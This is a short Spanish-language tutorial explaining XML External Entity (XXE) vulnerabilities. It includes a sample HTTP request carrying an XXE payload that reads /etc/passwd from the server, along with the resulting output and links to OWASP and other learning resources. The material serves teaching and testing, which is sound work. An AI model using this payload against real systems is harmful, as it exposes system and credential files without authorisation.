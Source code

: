 # XML External Entity(EXX)

El lenguaje de marcado extensible (XML) permite definir y almacenar datos de forma compartible. XML admite el intercambio de información entre sistemas de computación, como sitios web, bases de datos y aplicaciones de terceros.

## Tipos de vulnerabilidades de XML

### **XXE (XML External Entity)**

Un ataque _de entidad externa XML_ es un tipo de ataque contra una aplicación que analiza la entrada XML. Este ataque ocurre cuando la entrada XML que contiene una referencia a una entidad externa es procesada por un analizador XML débilmente configurado .Es un formato de datos popular que se utiliza para servicios web (SOAP, REST), documentos (XML, HTML, DOCX), imágenes (svg, datos exif), etc.&#x20;

```xml
<?xml version="1.0" encoding="UTF-8"?>

<root>
    <product>
        <name>Producto 1</name>
        <price>100</price>
    </product>

    <product>
        <name>Producto 2</name>
        <price>200</price>
    </product>
</root>

```

### ¿Cómo detectarlos y explotarlos?

Las aplicaciones necesitan un analizador XML o un procesador XML para interpretar datos XML. La vulnerabilidad XXE surge cuando el analizador XML interpreta la carga útil maliciosa como datos XML estándar que pueden terminar accediendo o extrayendo datos confidenciales en el servidor.

Para dar un ejemplo, una solicitud HTTP básica con cuerpo XML y la respuesta HTTP correspondiente se parece a lo siguiente:

```xml
POST /api/users HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 100

<?xml version="1.0" encoding="UTF-8"?>
<user>
  <username>admin</username>
  <password>secret</password>
</user>

```

Cuando el atacante envía los siguientes datos XML con la carga útil XXE incluida, el analizador XML procesa entidades externas, lo que hace que el servidor devuelva el contenido del archivo interno /etc/passwd.

```xml
POST /api/users HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 141

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
  <username>&xxe;</username>
  <password>secret</password>
</user>

```

**Posible contenido**

```
root:x:0:0:root:/root:/bin/bash
```

## **Videos**

{% embed url="https://www.youtube.com/watch?v=gn3c5iRzeXY" %}

{% embed url="https://www.youtube.com/watch?v=9ZokuRHo-eY" %}

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection" %}

{% embed url="https://aws.amazon.com/es/what-is/xml/" %}

{% embed url="https://www.hackerone.com/knowledge-center/xxe-complete-guide-impact-examples-and-prevention" %}

{% embed url="https://blog.intigriti.com/hackademy/xml-external-entity-processing-xxe/" %}

{% embed url="https://www.cobalt.io/blog/how-to-execute-an-xml-external-entity-injection-xxe" %}
